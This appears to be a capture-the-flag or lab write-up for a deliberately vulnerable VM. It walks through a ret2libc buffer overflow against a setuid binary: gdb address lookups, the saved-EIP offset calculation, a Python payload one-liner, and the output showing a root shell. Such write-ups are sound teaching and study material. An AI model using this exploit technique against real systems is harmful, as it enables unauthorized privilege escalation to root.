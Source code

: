 # ret2libc

<!--toc:start-->
- [ret2libc](#ret2libc)
  - [Get addresses](#get-addresses)
  - [Exploitation](#exploitation)
<!--toc:end-->

For the buffer overflow part we can use another method called [ret2libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc).

## Get addresses

Get address of `system`:

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

Get address of `/bin/sh`:

```bash
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:      "/bin/sh"
```

Get saved eip offset:

```bash
(gdb) r $(python -c 'print "A" * 64')
Starting program: /home/zaz/exploit_me $(python -c 'print "A" * 64')

Breakpoint 1, 0x0804842c in main ()
(gdb) x/64xw $esp
0xbffff680:     0xbffff690      0xbffff8e9      0x00000000      0x00000000
0xbffff690:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6d0:     0x08048400      0x080496e8      0x00000002      0x080482dd
0xbffff6e0:     0xb7fd13e4      0x00100000      0x080496e8      0x08048461
0xbffff6f0:     0xffffffff      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
0xbffff700:     0xb7fed280      0x00000000      0x08048449      0xb7fd0ff4
0xbffff710:     0x08048440      0x00000000      0x00000000      0xb7e454d3
(gdb) i f
Stack level 0, frame at 0xbffff720:
 eip = 0x804842c in main; saved eip 0xb7e454d3
 Arglist at 0xbffff718, args: 
 Locals at 0xbffff718, Previous frame s sp is 0xbffff720
 Saved registers:
  ebp at 0xbffff718, eip at 0xbffff71c
```

Buffer start at `0xbffff690` and eip start at `0xbffff71c`.

```bash
(gdb) p 0xbffff71c - 0xbffff690
$2 = 140
```

The offset is 140. We can exploit now.

## Exploitation

With the previous informations we can compose our exploit:

1. fill up to the offset of saved eip with some chars
2. write the address of `system`
3. write return address of system (we don't return but we need to fill it)
4. write the address of `/bin/sh`

We get this:

```bash
python -c 'print("A" * 140 + "\xb7\xe6\xb0\x60"[::-1] + "BBBB" + "\xb7\xf8\xcc\x58"[::-1])'
```

Try to use this exploit:

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("A" * 140 + "\xb7\xe6\xb0\x60"[::-1] + "BBBB" + "\xb7\xf8\xcc\x58"[::-1])')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`BBBBX
$ id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```
